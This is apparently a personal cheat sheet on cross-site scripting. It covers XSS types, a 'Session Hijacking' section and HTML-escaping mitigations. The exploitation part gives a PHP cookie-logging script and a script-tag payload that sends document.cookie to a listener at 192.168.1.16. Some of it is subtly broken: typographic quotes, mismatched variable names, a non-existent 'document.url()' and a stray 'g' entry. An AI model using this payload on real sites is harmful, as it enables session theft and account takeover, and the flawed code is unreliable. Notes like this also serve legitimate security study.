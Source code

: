 # XSS

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```


## Exploitation
- Session Hijacking
  - Cookie Stealer (PHP for Apache web server)
```PHP
<?php
$Cookie=$_GET[‘txt’];
$log=”Cookie=$cookie\r\n”;
$f=fopen(“log.txt”,”a”);
fwrite($f,$log);
?>
```

  - XSS Payload
```javascript
<script>window.location=”http://192.168.1.16/cookie1.php?txt=” + document.cookie;</script>
```

- Fake Page
  - g

- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
